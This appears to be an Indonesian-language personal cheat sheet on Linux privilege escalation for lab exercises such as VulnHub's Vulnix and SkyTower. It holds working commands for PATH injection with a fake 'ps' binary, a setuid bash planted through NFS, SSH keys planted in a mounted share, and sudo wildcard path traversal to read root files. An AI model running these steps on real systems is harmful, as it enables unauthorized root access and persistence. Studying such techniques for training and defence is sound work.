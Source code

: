 # Usefool Tools and links
Cek Priv Esc
https://github.com/sleventyeleven/linuxprivchecker

Kalau stuck bisa kesini
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom

# Cron Jobs
Untuk cron jobs ini terkadang kita gak tau apakah ada atau tidak, nah cara untuk mengetahuinya bisa menggunakan tools pspy
https://github.com/DominicBreuker/pspy

Jadi tools ini akan melakukan monitoring, perintah-perintah apa saja yang dilajalankan oleh user lain termasuk root

# Checklist
![[linux_privesc.jpg]]

12. LD_PRELOAD
13. PATH INJECTION

# Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps #nama binary
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`

# NFS
Kalau menemukan NFS, coba mount 

```
showmount -e 192.168.1.9
```

Terus kalau muncul direktori yang boleh dimount, kita langsung mount ke tmp directory

Attacker machine : 
```
mkdir /tmp/mydrive
sudo mount -t nfs 192.168.1.9:/home/deon /tmp/mydrive
cd /tmp/mydrive
cp /bin/bash .
chmod +s bash
```

Lalu pada victim machine:
```
cd /home/deon
./bash -p
```

## NFS restricted
Studi kasus Vulnix dimana hasil mount hanya bisa diakses oleh user dengan nama vulnix dan id 2008, maka untuk melakuknnya adalah

```
useradd -u 2008 vulnix
passwd vulnix
mkdir /home/vulnix
chown vulnix:vulnix /home/vulnix
su vulnix
ssh-keygen -t rsa
cd /tmp/mydrive
mkdir ./.ssh
cat /home/vulnix/.ssh/id_rsa.pub > ./.ssh/authorized_keys
```
Perintah diatas, kita membuat SSH key pair agar bisa login dengan key, nah keynya disimpan pada `/home/vulnix` yang dalam ini kita  mound ke `/tmp/mydrive`
Lalu sebagai user root, login ssh dengan key tsb
```
ssh -i /home/vulnix/.ssh/id_rsa vulnix@192.168.1.9
```

# Asterisk
Jika saat melakukan `sudo -l`, muncul seperti ini :
```
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
Artinya kita bisa menjalankan `cat` atau `ls` sebagai root. Perhatikan bahwa kita hanya boleh menggunakan perintah tersebut pada direktori `/accounts/*`, yang menarik disini adalah asterisk `*` dimana memiliki celah kita bisa baca di direktori mana saja. Sehingga exploitnya
```
sudo /bin/cat /accounts/../root/root.txt
```
Kita bisa menggunakan file inclusion
Latihan : SkyTower  VulnHub

# PS 
perintah `ps` digunakan untuk menampilkan proses yang sedang berjalan. 

Biasanya pada saat mendapakatkan low shell, kita berada pada user `www-data`, misalnya terdapat user dengan nama `andy` dan semua cara sudah kita lakukan namun tidak menemukan cara untuk priv esc ke `andy`, maka coba lihat apakah ada proses yang dijalankan oleh andy
```
ps aux | grep andy
```

Nah jika ada maka tes proses/aplikasi yang dijalankan apakah ada RCE

## Another Reference
### xhxBrofessor
![Linux Priv Esc 2](https://github.com/hxhBrofessor/PrivEsc-MindMap/raw/main/Linux-Privesc.JPG)

### Conda

![Linux PrivEsc](https://github.com/C0nd4/OSCP-Priv-Esc/blob/main/images/Linux%20Privilege%20Escalation.png?raw=true)